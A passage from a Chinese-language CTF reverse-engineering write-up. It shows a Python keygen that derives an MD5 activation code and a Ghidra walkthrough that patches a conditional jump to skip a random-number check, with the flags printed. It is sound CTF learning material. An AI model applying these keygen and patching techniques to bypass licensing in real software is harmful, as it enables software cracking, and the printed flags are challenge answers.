        QString::QString((QString *)&local_68,(QChar *)&DAT_1400061a0,4); // "失败"
        QLabel::setText(pQVar5);
        this->activated = false;
    }
}
```

写一个 Python 函数计算一下：

```python title="exp.py"
import hashlib

def md5_calc(account):
    account += "@nju.edu.cn"
    
    # 计算md5
    md5_hash = hashlib.md5(account.encode('utf-8')).digest()
    
    # 转换为十六进制字符串
    code = md5_hash.hex().upper()
    
    return code

account = "itsc"
code = md5_calc(account)
print(f"code: {code}")
```

拿到激活码 `15F00E032036724774CF4A2D2CA7C63C`



Flag 就是 `flag{15F00E032036724774CF4A2D2CA7C63C}`


### RE03-幸运数字

!!! warning "非常规解法注意，和本题的正解几乎没有关系"

    I'm so sorry...

下发了一个 exe 文件，尝试进行交互，猜测这个幸运数字是个随机数，猜不中的：



注意到提示：

> 你可能需要了解一下 [[TLS（线程本地存储）](https://learn.microsoft.com/zh-cn/windows/win32/procthread/using-thread-local-storage)] 和 [[IsDebuggerPresent](https://learn.microsoft.com/zh-cn/windows/win32/api/debugapi/nf-debugapi-isdebuggerpresent)]

似乎是对动态调试操作有所反制，所以依旧尝试 Ghidra 静态分析。先搜索一下字符串：



发现有填写正确的庆祝语字符串，定位函数 `FUN00401450`：

```c++
void __fastcall FUN_00401450(undefined4 param_1,int *param_2)

{
  HANDLE hHandle;
  uint uVar1;
  int iVar2;
  int iVar3;
  HANDLE unaff_EDI;
  uint uStack_54;
  int iStack_4c;
  DWORD DStack_48;
  uint auStack_40 [15];
  
  auStack_40[0xe] = DAT_00404000 ^ (uint)&stack0xfffffffc;
  FUN_004013b0();
                    /* WARNING: Bad instruction - Truncating control flow here */
  Sleep(1000);
  auStack_40[0] = 0xba637da0;
  auStack_40[1] = 0x8c445f89;
  auStack_40[2] = 0x112970aa;
  auStack_40[3] = 0xe2ca658f;
  auStack_40[4] = 0xbc46a994;
  auStack_40[5] = 0x7289dd5c;
  auStack_40[6] = 0x21bd739f;
  auStack_40[7] = 0x71233bc;
  auStack_40[8] = 0x67cd6608;
  auStack_40[9] = 0xf80e72bb;
  auStack_40[10] = 0xfa7003e0;
  auStack_40[0xb] = 0xfdc39c15;
  auStack_40[0xc] = 0x6e7aeeb0;
  auStack_40[0xd] = 0x34;
  FUN_00401020("welcome to TrinityCTF\n");
  hHandle = (HANDLE)FUN_004013b0();
  Sleep(1000);
  uVar1 = func_0x00401080();
  srand(uVar1);
  iVar2 = rand();
  FUN_00401020("input your lucky number:\n");
  iVar3 = FUN_00401050(&UNK_00403174);
  if (iVar3 != 1) {
    FUN_00401020("invalid input\n");
    WaitForSingleObject(hHandle,0xffffffff);
    CloseHandle(unaff_EDI);
    TlsFree(DStack_48);
    func_0x004016c3();
    return;
  }
  if (iStack_4c == iVar2) {
    FUN_00401020("Congratulations, you guessed right!\n");
    FUN_004013b0();
                    /* WARNING: Bad instruction - Truncating control flow here */
    Sleep(1000);
    FUN_00401090(auStack_40,(int *)0xd,0x404060,0);
    uVar1 = auStack_40[0xd];
    FUN_00401020(&UNK_004031b0);
    for (uStack_54 = 0; uStack_54 < uVar1; uStack_54 = uStack_54 + 1) {
      putchar((uint)*(byte *)((int)auStack_40 + uStack_54));
    }
    FUN_00401020(&UNK_004031b8);
    FUN_00401020("Is that really right?");
  }
  else {
    FUN_00401020("number error\n");
  }
  return;
}

```

先不管我如何输入正确的数字才能得到 Flag，我们重点关注这一段：

```c++
if (iStack_4c == iVar2) {
    FUN_00401020("Congratulations, you guessed right!\n");
    FUN_004013b0(aDStack_48,aDStack_48 + 1);
    Sleep(1000);
    FUN_00401090(0x404060,0);
    uVar1 = uStack_c;
    FUN_00401020(&UNK_004031b0);
    for (uStack_54 = 0; uStack_54 < uVar1; uStack_54 = uStack_54 + 1) {
      putchar((uint)abStack_40[uStack_54]);
    }
    FUN_00401020(&UNK_004031b8);
    FUN_00401020("Is that really right?");
  }
```

你是说，判定为猜数正确，输出 Flag 只有一个 `if (iStack_4c == iVar2)` 的验证吗？

尝试找到对应的汇编代码：





我们进行修改：





把 `JNE 0x00401670` 修改为 `JMP 0x004015b1`，导出修改后的 exe 文件打开





于是得到了 Flag: `flag{c0ngr4tul4t1ons_th1s_1s_3z_lucknumb3r_4nd_xte4}`

（其实我也关注了一下 Flag 是怎么解码得到的，似乎包含 TEA 加密过程，但是我一直没有进展，于是选择了改汇编码的方案）

（为了拿到 Flag 不择手段了 😈）

---

（<del>有点遗憾自己是第一天下午才决定参加比赛的，不然可以拿 RE 的三个一血</del>）